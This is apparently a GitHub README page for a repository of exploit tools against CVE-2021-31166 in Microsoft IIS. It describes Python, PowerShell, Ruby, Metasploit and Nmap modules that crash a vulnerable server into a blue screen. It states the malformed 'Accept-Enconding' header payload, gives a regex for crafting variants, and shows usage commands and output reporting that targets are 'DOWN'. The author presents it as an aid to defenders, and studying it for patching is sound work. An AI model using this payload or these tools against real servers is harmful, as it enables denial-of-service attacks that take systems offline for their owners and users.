 # CVE-2021-31166

CVE-2021-31166: exploitation with Powershell, Python, Ruby, NMAP and Metasploit.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/mauricelambert](https://github.com/mauricelambert) |
| Url      | [https://github.com/mauricelambert/CVE-2021-31166](https://github.com/mauricelambert/CVE-2021-31166)                                               |
| Stars    | 5                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>

* bluescreen* crash* cve* cve-2021-31166* denial-of-service* dos* exploit* iis* metasploit* microsoft* nmap* payload* powershell* python3* ruby* vulnerability* webserver

</details>

## Readme

# CVE-2021-31166

## Why

I recently wrote an exploit for CVE-2021-31166, it exploit CVE-2021-31166 and CVE-2021-31166. A pentester should use https://github.com/mauricelambert/CVE-2021-31166, but in SOC teams we need to know the specific vulneraility to fix it properly, which is why i wrote this exploit.

## Description

I propose pure python, powershell, ruby scripts and metasploit, nmap modules to attack a vulnerable IIS Web Server (perform a DOS attack to crash (blue screen) the server).

Payload is very simple:
 - `Accept-Enconding: something, ,`
 - Replace `something` with whatever header value you want
 - Should match with: `Accept-Enconding: (\w|[~/\.-]|%[0-9a-fA-F]{2})+,\s+,`

Check your payload with python:

```python
from re import fullmatch
if fullmatch(r"Accept-Enconding: (\w|[~/\.-]|%[0-9a-fA-F]{2})+,\s+,", "Accept-Enconding: something, ,"):
    print("Payload is valid !")
```

## Exploit: DOS - BlueScreen

### Python

```bash
python3 CVE202131166.py
# OR
chmod u+x CVE202131166.py
./CVE202131166.py

python3 CVE202131166.py <target>
# OR
chmod u+x CVE202131166.py
./CVE202131166.py <target>

python3 CVE202131166.py 10.10.10.10
# OR
chmod u+x CVE202131166.py
./CVE202131166.py 10.10.10.10:8000
# OR
python3 CVE202131166.py mywebservername
```

```text
~# python CVE202131166.py

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

Target: 10.10.10.10

[+] http://10.10.10.10 is UP. Send payload...
[+] http://10.10.10.10 is DOWN. 10.10.10.10 is vulnerable to CVE-2021-31166.

~# 
```

### Powershell

```powershell
powershell ./CVE-2021-31166.ps1
powershell ./CVE-2021-31166.ps1 mywebservername
powershell ./CVE-2021-31166.ps1 -Target 10.10.10.10
```

```text
cmd> powershell ./CVE-2021-31166.ps1

cmdlet CVE-2021-31166.ps1 at command pipeline position 1
Supply values for the following parameters:
target: 10.10.10.10:8000

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

cmd>
```

### Ruby

```bash
ruby CVE-2021-31166.rb
ruby CVE-2021-31166.rb 10.10.10.10
```

```text
~# ruby CVE-2021-31166.rb

CVE-2021-31166  Copyright (C) 2022  Maurice Lambert
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions.

Host (target): 10.10.10.10
[+] Target: 10.10.10.10 is vulnerable and down.

~#
```

### Metasploit

#### Python module

```text
msf6 > use exploit/windows/iis/py_dos_iis_2021_31166
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > set RPORT 80
RPORT => 80
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) > exploit
[*] Running module against 127.0.0.1

[*] Starting server...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - Trying first connection...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - First connection OK. Sending payload...
[*] py_dos_iis_2021_31166.py[10.10.10.10:80] - Target is down ! Congratulations !
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/py_dos_iis_2021_31166) >
```

#### Ruby module

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166 
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 10.10.10.10

[+] Target is down ! Congratulations !
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) >
```

### Nmap

```bash
nmap -p 80 --script dos_iis_2021_31166 10.10.10.10
```

```text
~# nmap -p 80 --script dos_iis_2021_31166 10.10.10.10
80/tcp open  http
| dos_iis_2021_31166:
|   VULNERABLE:
|   IIS CVE-2021-31166 DOS
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2021-31166
|                   The IIS Web Server contains a RCE vulnerability. This script
|                   exploits this vulnerability with a DOS attack
|                   (causes a Blue Screen).
|
|     Disclosure date: 2021-05-11
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2021-31166
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31166
|_      https://github.com/mauricelambert/CVE-2021-31166
```

## Sources

 - [Microsoft](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-31166)
 - [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2021-31166)
 - [Pure ruby script documentation](https://mauricelambert.github.io/info/ruby/code/CVE-2021-31166/CVE202131166.html)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).



## Get the content

```
git clone https://github.com/mauricelambert/CVE-2021-31166
cd CVE-2021-31166
```

{% embed url="https://github.com/mauricelambert/CVE-2021-31166" %}

<figure><img src="https://avatars.githubusercontent.com/u/50479118?v=4" alt=""><figcaption><p>mauricelambert</p></figcaption></figure>
